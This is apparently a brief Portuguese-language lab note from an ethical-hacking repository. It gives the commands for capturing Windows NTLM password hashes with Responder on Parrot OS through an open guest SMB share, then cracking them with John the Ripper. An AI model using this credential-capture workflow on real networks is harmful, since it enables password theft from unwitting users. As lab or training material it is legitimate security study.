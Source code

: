 
### Imagens e Configurações de Instâncias

- **win11 c5large 65gb**
- **Parrot OS c5 65gb**

comando para partilhar pasta
sudo net usershare add sharefolder /home/parrot/sharefolder "A secret folder shared via SMB" everyone:F guest_ok=y
executar
responder -I ens5

no win11 run: \\ip privado do parrot
tentar meter a pass vai dar erro e aparace o hash no parrot
![image](https://github.com/pinhers/Ethical-Hacking/assets/145346889/3dfce7ff-cc32-45aa-870b-d50793e12673)


parrot-logs:
/usr/share/responder/logs
john SMB-xxxxxxxx- TAB

troubleshot:
sudo lsof -i :445
sudo systemctl stop smbd
